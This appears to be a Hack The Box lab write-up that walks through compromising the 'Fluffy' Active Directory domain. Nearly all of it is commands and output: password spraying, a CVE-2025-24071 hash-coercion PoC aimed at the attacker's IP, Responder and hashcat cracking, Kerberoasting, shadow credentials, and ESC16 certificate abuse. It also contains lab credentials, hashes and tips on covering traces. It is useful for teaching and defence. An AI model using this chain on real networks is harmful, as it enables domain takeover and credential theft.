


Fluffy was a fun machine that required a good balance between enumeration and intuition. Nothing was overly complex, but small details made a big difference in progressing. I particularly enjoyed how the box forced me to slow down and really pay attention to the environment instead of rushing. It’s the kind of challenge that reinforces good habits rather than relying on brute force or automated tools.

<!--more-->

## About

Fluffy is an intermediate Windows-based machine on the Hack The Box platform, providing a practical environment for learning Active Directory exploitation techniques. Unlike basic enumeration challenges, Fluffy dives into post-enumeration attacks against AD environments, including modern authentication bypass methods such as Shadow Credentials and certificate abuse.

This write-up walks through my full attack chain, from the initial enumeration of services and accounts, to exploiting weak Active Directory permissions, and ultimately achieving Domain Admin privileges. Along the way, I used tools like BloodHound, Certipy, and SharpHound to map out the domain and identify misconfigurations leading to privilege escalation.

The objective of this post is twofold: first, to document the technical process step by step — covering enumeration, credential abuse, and Kerberos-based attacks — and second, to explain the logic behind each action. By doing so, I aim to illustrate not only how the attacks were performed, but also why these specific techniques were chosen over others. This approach helps develop a deeper understanding of modern AD exploitation in a controlled, legal environment.

## Reconnaissance

### Nmap Scan

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nmap --privileged -sC -sV -O -A -T4 -p- -oN fluffy_scan fluffy.htb
Nmap scan report for fluffy.htb (10.129.202.3)
Host is up (0.018s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-07-05 03:11:19Z)
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-05T03:12:52+00:00; +7h00m01s from scanner time.
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-05T03:12:53+00:00; +7h00m01s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T03:12:52+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp  open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-05T03:12:53+00:00; +7h00m01s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49667/tcp open  msrpc        Microsoft Windows RPC
49689/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49698/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49715/tcp open  msrpc        Microsoft Windows RPC
49734/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   18.25 ms 10.10.14.1
2   18.24 ms fluffy.htb (10.129.202.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 219.35 seconds
```

## Next-Gen Enumeration

To begin the enumeration phase, I used NXC (Next-Gen CrackMapExec) to check for available services and validate the discovered credentials for the user `j.fleischman`. This user and password pair were obtained during earlier enumeration steps.

### WINRM

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nxc winrm 10.129.202.3 -u j.fleischman -p J0elTHEM4n1990!        

WINRM       10.129.202.3    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.202.3    5985   DC01             [-] fluffy.htb\j.fleischman:J0elTHEM4n1990!
```

### LDAP

I then pivoted to test LDAP (389), which is often more permissive. This time, authentication succeeded:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nxc ldap 10.129.202.3 -u j.fleischman -p J0elTHEM4n1990! 
LDAP        10.129.202.3    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.129.202.3    389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
```

### SMB

Finally, I tested SMB (445), which also confirmed valid credentials:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nxc smb 10.129.202.3 -u j.fleischman -p J0elTHEM4n1990! 
SMB         10.129.202.3    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.202.3    445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
```

I used the `--users` option in NXC to list available accounts:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nxc smb 10.129.202.3 -u j.fleischman -p J0elTHEM4n1990! --users
SMB         10.129.202.3    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.202.3    445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.202.3    445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.202.3    445    DC01             Administrator                 2025-04-17 15:45:01 0       Built-in account for administering the computer/domain 
SMB         10.129.202.3    445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.202.3    445    DC01             krbtgt                        2025-04-17 16:00:02 0       Key Distribution Center Service Account 
SMB         10.129.202.3    445    DC01             ca_svc                        2025-04-17 16:07:50 0        
SMB         10.129.202.3    445    DC01             ldap_svc                      2025-04-17 16:17:00 0        
SMB         10.129.202.3    445    DC01             p.agila                       2025-04-18 14:37:08 0        
SMB         10.129.202.3    445    DC01             winrm_svc                     2025-05-18 00:51:16 0        
SMB         10.129.202.3    445    DC01             j.coffey                      2025-04-19 12:09:55 0        
SMB         10.129.202.3    445    DC01             j.fleischman                  2025-05-16 14:46:55 0        
SMB         10.129.202.3    445    DC01             [*] Enumerated 9 local users: FLUFFY
```

| Username      | Description                                          |
|---------------|------------------------------------------------------|
| Administrator | Built-in domain admin account                        |
| Guest         | Default guest account (typically disabled)           |
| krbtgt        | Kerberos ticket-granting account                     |
| ca_svc        | Possible Certificate Authority service account       |
| ldap_svc      | Possible LDAP service account                        |
| p.agila       | Standard user, potentially privileged                |
| winrm_svc     | Service account likely tied to WinRM                 |
| j.coffey      | Another domain user                                  |
| j.fleischman  | The user I already compromised                       |

I performed a password spray against the list of discovered users using the known password `J0elTHEM4n1990!`. This technique helps quickly identify weak or reused passwords.
The only valid credential found was for `j.fleischman`, confirming my initial access.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nxc smb 10.129.202.3 -u account -p J0elTHEM4n1990!
SMB         10.129.202.3    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\Administrator:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\Guest:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\krbtgt:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\ca_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\ldap_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\p.agila:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\winrm_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [-] fluffy.htb\j.coffey:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.129.202.3    445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
```

With valid credentials, I proceeded to enumerate the available SMB shares on the domain controller. This step often reveals shares containing scripts, configuration files, or GPOs that can expose sensitive information or credentials.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ nxc smb 10.129.202.3 -u j.fleischman -p J0elTHEM4n1990! --shares
SMB         10.129.202.3    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.202.3    445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.202.3    445    DC01             [*] Enumerated shares
SMB         10.129.202.3    445    DC01             Share           Permissions     Remark
SMB         10.129.202.3    445    DC01             -----           -----------     ------
SMB         10.129.202.3    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.202.3    445    DC01             C$                              Default share
SMB         10.129.202.3    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.202.3    445    DC01             IT              READ,WRITE      
SMB         10.129.202.3    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.202.3    445    DC01             SYSVOL          READ            Logon server share 
```

Once authenticated on the `IT` share with smbclient, I listed the available files and directories. This share appeared to contain various software installers and potentially sensitive files.
I connected using:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ smbclient //10.129.202.3/IT -U j.fleischman  
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul  5 05:33:46 2025
  ..                                  D        0  Sat Jul  5 05:33:46 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 17:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 17:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 17:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 17:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 16:31:07 2025

5842943 blocks of size 4096. 2094586 blocks available
```

## Vulnerability Identification

> [!NOTE]
> Always take time to investigate internal documentation like upgrade guides and change logs. They often disclose vulnerable components or intended upgrade paths.

Once the files were downloaded, I started reviewing their contents. The KeePass and Everything installers didn’t reveal anything useful at first glance, so I turned my attention to the Upgrade_Notice.pdf document.

Upon opening the PDF, I discovered detailed instructions for an upgrade process affecting one of the internal services. The document referenced a specific vulnerability [CVE-2025-24071](https://github.com/Marcejr117/CVE-2025-24071_PoC), describing it as a critical issue affecting the current environment

Curious about this CVE, I performed a quick search on Google:

```bash
CVE-2025-24071 exploit
```

After identifying CVE-2025-24071 from the Upgrade_Notice.pdf, I looked deeper into how this vulnerability could be leveraged. According to the documentation I found on GitHub, this CVE affected a service present in the environment and could be exploited to gain elevated privileges.

I cloned the public proof-of-concept (PoC) repository mentioned in the document and prepared to test it against the target.

## Exploitation

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb/CVE-2025-24071_PoC]
└─$ python PoC.py exploit 10.10.14.230
[+] File exploit.library-ms created successfully.
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb/CVE-2025-24071_PoC]
└─$ ls
20250704204148_bloodhound.zip  certipy  exploit.zip  PoC.py  README.md  usecase.gif
```

> [!CAUTION]
> Running Responder on the wrong interface or without filtering might disrupt legitimate traffic in shared environments. Ensure you are on an isolated test network like HTB.

After preparing the exploit, I set up Responder to listen for any authentication attempts over SMB. Responder is a powerful tool that poisons name resolution protocols and captures NTLMv2 challenge-response hashes when a system attempts to authenticate.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb/]
└─$ responder -I tun0 -wvF

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.202.3
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:7b24df1e66447c66:9C6075FDF750718A3492B5EF5BF38B4D:0101000000000000006B5EE69AEBDB0176ED8CB6CC1304A50000000002000800470033005900310001001E00570049004E002D003300480043004A00420047004A00320034005500440004003400570049004E002D003300480043004A00420047004A0032003400550044002E0047003300590031002E004C004F00430041004C000300140047003300590031002E004C004F00430041004C000500140047003300590031002E004C004F00430041004C0007000800006B5EE69AEBDB0106000400020000000800300030000000000000000100000000200000E3254033F4B997700AE898E30BCFF479B06FD3C05D3F2984F6E0D41758651A6E0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200330030000000000000000000
```

With the captured hash saved into a file (hash.txt), I used Hashcat with the NetNTLMv2 mode (-m 5600) and the RockYou wordlist to attempt cracking it:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt 
```

{}

  `prometheusx-303`

{}

## Post-Exploitation

With valid credentials in hand, I attempted to establish a WinRM session using Evil-WinRM, a common tool for executing commands remotely on Windows hosts

```bash
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                  
```

This confirmed that, although the credentials were correct, the user p.agila did not have WinRM privileges on the target machine. In Active Directory environments, WinRM access is typically restricted to privileged users such as Domain Admins or accounts explicitly granted remote management rights

I used bloodhound-python, a modern alternative to SharpHound, to collect detailed information about the domain environment. This tool supports gathering data over LDAP and SMB, which I could access with the valid credentials of p.agila.

> [!WARNING]
> Kerberos requires **synchronized time** between the client and the Domain Controller (DC).  
> If there is a time difference of more than a few minutes, Kerberos authentication will fail with an error like:
>
> `Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)`

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ bloodhound-python -u 'p.agila' -p '<password>' -d fluffy.htb -ns 10.129.202.3 -c All --zip                                 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 04S
INFO: Compressing output into 20250704231303_bloodhound.zip
```

> [!TIP]
> Always make sure your system clock is synced with the DC to avoid this issue. In lab environments, tools like `rdate` and `faketime` are great for quickly aligning your time without changing your system clock globally.
>
> ```bash
> faketime "$(rdate -n 10.129.202.3 -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
> ```

After importing the BloodHound-python data into the BloodHound Community Edition, I visualized the relationships between domain users and groups.

The most interesting path identified was the following:

<div style="display: flex; justify-content: center;">
  
</div>

From this graph, we can see:

- The user p.agila@fluffy.htb is a member of the Service Account Managers group.
- This group has GenericAll privileges over the Service Accounts group.

<div style="display: flex; justify-content: center;">
  
</div>

Using bloodyAD, I added p.agila to the SERVICE ACCOUNTS group, leveraging the GenericAll permission discovered earlier in BloodHound

> [!NOTE]
> BloodHound paths showing GenericAll privileges on groups often allow for powerful lateral movement, but don’t always immediately grant shell access. Follow-up actions (like Kerberoasting) are still required.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ bloodyAD --host '10.129.202.3' -d 'dc01.fluffy.htb' -u 'p.agila' -p '<password>' add groupMember 'SERVICE ACCOUNTS' p.agila
[+] p.agila added to SERVICE ACCOUNTS
```

Once added to the group, I ran a targeted Kerberoast attack using `targetedKerberoast.py` to extract TGS hashes for service accounts.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb/targetedKerberoast]
└─$ python targetedKerberoast.py -v -d 'fluffy.htb' -u 'p.agila' -p '<password>'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ca_svc)
$krb5tgs$23$*ca_svc$
FLUFFY.HTB$fluffy.htb/ca_svc*$$
[+] Printing hash for (ldap_svc)
$krb5tgs$23$*ldap_svc$
FLUFFY.HTB$fluffy.htb/ldap_svc*$
[+] Printing hash for (winrm_svc)
$krb5tgs$23$*winrm_svc$
FLUFFY.HTB$fluffy.htb/winrm_svc*$
```

I briefly checked Hashcat modes to see which mode to use for cracking this etype 23 TGS hash:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ hashcat -h | grep -i kerberos | grep 23
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```

At this point, I could have tried to crack the password.
But instead, I chose to exploit the Shadow Credentials technique on ca_svc, using `Certipy`

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad shadow auto -u "p.agila@dc01.fluffy.htb" -p '<password>' -account 'CA_SVC'
```

{}

  ```bash
  Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: DC01.FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '91e35784-ddc3-177c-84ee-ed2297b67806'
[*] Adding Key Credential with device ID '91e35784-ddc3-177c-84ee-ed2297b67806' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '91e35784-ddc3-177c-84ee-ed2297b67806' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
File 'winrm_svc.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
  ```

{}

> [!TIP]
> Always try to crack TGS hashes first. If it fails or takes too long, fallback on abusing Shadow Credentials or certificate enrollment if the target environment allows it.

Armed with the NT hash, I finally got a WinRM shell as winrm_svc

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ evil-winrm -i 10.129.202.3 -u 'winrm_svc' -H '<hash>'                                              
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop

```

{}

  ```bash
  *Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
  3ed459e91984515db1feeae2b764dc79
  ```

{}

## Privilege Escalation

After compromising the ca_svc account, I used Certipy to enumerate the Active Directory Certificate Services (ADCS) configuration.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad account -u 'ca_svc' -hashes ':<hashes>' -dc-ip 10.129.202.3 -user 'ca_svc' read

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-07-05T04:54:48+00:00
```

Next, I launched a full scan for vulnerable certificate templates and misconfigurations

> [!WARNING]
> Abusing ADCS with ESC16 is stealthier than DCSync or dumping ntds.dit, but will likely trigger modern EDRs monitoring CA enrollment and UPN changes.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad find -username 'ca_svc' -hashes ':<hashes>' -dc-ip 10.129.202.3 -vulnerable

# cat .txt
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

> [!NOTE]
> ESC16: Some security extensions are disabled, potentially allowing misconfigured certificate requests.
>
> Prerequisites for exploitation are not fully met, but this could be chained with other weaknesses.

After identifying the CA (fluffy-DC01-CA) and the vulnerability ESC16, I decided to abuse the UserPrincipalName (UPN) of the service account `ca_svc`.
Using Certipy, I changed the UPN of `ca_svc` to administrator, effectively making the CA issue a certificate that would be recognized as the domain administrator

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad account -u 'ca_svc' -hashes ':<hashes>' -dc-ip '10.129.202.3'  -upn 'administrator'  -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

I then requested a certificate from the CA, using the built-in User template (no authentication extensions required), over RPC

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad req -u 'ca_svc' -hashes ':<hashes>' -dc-ip '10.129.202.3' -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 19
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

After successfully requesting the administrator certificate, I restored the original UPN of ca_svc to avoid leaving traces of the attack

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad account -u 'ca_svc' -hashes ':<hashes>' -dc-ip '10.129.202.3'  -upn 'ca_svc@fluffy.htb'  -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

I then authenticated as administrator@fluffy.htb using the certificate I had just requested (administrator.pfx)

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
└─$ certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip '10.129.202.3'
```

{}

  ```bash
  Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
  ```

{}

Finally, I used Evil-WinRM to connect to the target as administrator, using the NT hash I recovered earlier
Once connected, I navigated to the Administrator's Desktop and retrieved the final root flag

```bash
┌──(certipy-venv)─(pullsec㉿pen-301101)-[~/ctf/HackTheBox/fluffy.htb]
